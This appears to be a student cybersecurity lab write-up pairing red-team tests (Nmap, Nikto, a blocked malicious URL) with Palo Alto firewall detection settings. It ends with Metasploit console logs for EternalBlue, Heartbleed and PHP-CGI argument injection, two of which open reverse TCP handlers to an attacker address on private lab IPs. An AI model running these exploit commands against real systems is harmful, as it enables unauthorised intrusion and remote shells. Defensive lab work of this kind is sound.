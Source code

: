 Red Test: Nmap against DMZ and Windows Server

### Set up alert in a Palo Alto firewall for detecting and responding to Nmap scans

**Blue Response**

- **Create a Security Profile**
  - In Objects > Security Profiles > Vulnerability Protection.
  - Add a New Profile named Nmap_Scan_Detection.
  - Added Signature Exceptions for Nmap Detection:
    - Selected multiple Nmap related signatures.
    - Set the Action to Block for each of these signatures.
  - Ensure that logging is enabled for the new security policy rule.
- **Verify and Tested**
  - Checked that Monitor > Logs > Threat to review the alerts generated by Nmap scan detections.
    
![ALT TEXT](https://github.com/Reenhaider/2024CyberProject/blob/main/img/Firewall-nmap-alert.PNG)
---


## Red Test: Attempt to block access to potentially malicious websites

**Website:** Malicious websites (hacker9.org)

- **Description:** Attempt to access hacker9.org

**Steps to Test:**

1. Update Block Lists: Ensure firewall is using up-to-date threat intelligence feeds and URL categories.
2. Configure URL Filtering: Set up URL filtering rules to block categories like malware, phishing, and suspicious sites.
3. Enable Logging: Make sure logging is enabled for blocked attempts to access malicious sites.
4. Select Test URLs: Choose URLs such as hacker9.org.
5. Perform Tests: Try accessing the selected test URLs from a client within the network.
6. Check Logs: Verify that the access attempts are logged and blocked by your firewall.

**Blue Response**

- **Firewall Configuration**
  - URL Filtering: Configured Palo Alto firewall's URL filtering settings are configured to block access to categories of sites that are considered risky or inappropriate.
  - Threat Prevention: Enable threat prevention features to block known malicious IP addresses and domains.
  - SSL Decryption: Implement SSL decryption to inspect HTTPS traffic for malicious content.

![ALT TEXT](https://github.com/Reenhaider/2024CyberProject/blob/main/img/URL-Filtering-paloalto-alert.PNG)
---

## Red Test: Nikto against DMZ Server

**Typical Nikto Scan Activities**

- **Banner Grabbing:**
  - Identifies the version of the web server (Apache) and other software components.
- **Vulnerability Checks:**
  - Scans for known vulnerabilities in the Apache web server, PHP, MySQL, and any web applications running on the server.
  - Looks for outdated software versions with known exploits.
- **Configuration Issues:**
  - Identifies misconfigurations such as directory indexing, enabled HTTP methods (like PUT, DELETE), and default files (e.g., index.php, index.html).
- **Sensitive File Detection:**
  - Searches for sensitive files and directories, such as configuration files (phpinfo.php, .htaccess), backup files (.bak, .old), and temporary files.
- **Common Web Application Vulnerabilities:**
  - Tests for vulnerabilities such as SQL injection, Cross-Site Scripting (XSS), Cross-Site Request Forgery (CSRF), and Local File Inclusion (LFI).
- **SSL/TLS Vulnerabilities:**
  - Checks for weak SSL/TLS configurations and vulnerabilities.

### Set up alert in a Palo Alto firewall for detecting and responding to Nikto scans

**Blue Response**

- **Create a Security Profile**
  - In Objects > Security Profiles > Vulnerability Protection.
  - Add a New Profile named Nikto_Scan_Detection.
  - Added Signature Exceptions for Nikto Detection:
    - Selected any Nikto related signatures.
    - Set the Action to Block for each of these signatures.
  - Ensure that logging is enabled for the new security policy rule.
- **Verify and Tested**
  - Checked that Monitor > Logs > Threat to review the alerts generated by Nikto scan detections.

---

## Red tests using Metasploit CLI and selected payloads

### Eternal Blue

msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 192.168.100.200:4444
[*] 192.168.50.100:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[-] 192.168.50.100:445 - Rex::ConnectionRefused: The connection was refused by the remote host (192.168.50.100:445).
[*] 192.168.50.100:445 - Scanned 1 of 1 hosts (100% complete)
[-] 192.168.50.100:445 - The target is not vulnerable.
[*] Exploit completed, but no session was created.

### Heartbleed

msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > back
msf6 > use auxiliary/scanner/ssl/openssl_heartbleed
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 192.168.50.100
RHOSTS => 192.168.50.100
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > run
[*] 192.168.50.100:443 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

### SQL Injection

msf6 exploit(multi/http/php_cgi_arg_injection) > set RHOSTS 192.168.50.100
RHOSTS => 192.168.50.100
msf6 exploit(multi/http/php_cgi_arg_injection) > run
[*] Started reverse TCP handler on 192.168.100.200:4444
[*] Exploit completed, but no session was created.

msf6 exploit(multi/http/php_cgi_arg_injection) >
